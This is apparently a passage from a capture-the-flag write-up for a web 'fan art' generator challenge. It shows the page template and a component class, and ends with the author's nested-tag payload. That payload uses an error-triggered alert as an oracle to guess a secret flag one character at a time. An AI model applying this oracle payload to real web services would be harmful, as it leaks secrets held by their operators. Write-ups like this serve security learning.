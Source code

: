```html
            }
        </style> 
    </head>
    <body>
        <div class="bg"></div>
        <h1>EYANG OTZ OTZ OTZ!!! 💖💖💖</h1>
        <img src="data:image/png;base64, <%= img %>"></body>
    </body>
    <% if(rick) { %>
    <script type="text/javascript">
        alert("How dare you make an error on the EYANG FAN ART!");
        window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley";
    </script>
    <% } %>
</html>
```

If our input code leads an error after generate the fanart, it'll be alert an error and then redirect to rick roll video. Let's look at the class component

```javascript
class component {
	constructor(name,parent) {
		this.name = name;
		this.parent = parent;
		this.dx = 0;
		this.dy = 0;
		this.x = 0;
		this.y = 0;
		// <text> <shape> <line> are literals
		this.literals = [];

		if(this == parent) throw "Error: parent cannot be itself!";
	}

	toString() { return this.name; }
}
```

It checks if the component equals to the parent, it will throw an error which will alert. So what we gonna do here is we'll define a new component which has its parent equals to parent and we'll check every single word of flag component, so if it's right, it'll throw the error because of its `component == parent` just like the code. And we can also see the `toString()` function which means it will return to us a string, so we'll use `innerText` to have it show up.

final payload (by the author)
```javascript
<component name="clown">
<component name="parent">
<component name="flag">
<component name="literals">
<component name="0">
<component name="innerText">
<component name="0"> <!-- this is the ith character -->
<component name="L"> <!-- this is the character that we want to check -->

</component>
</component>
</component>
</component>
</component>
</component>
</component>
</component>
```
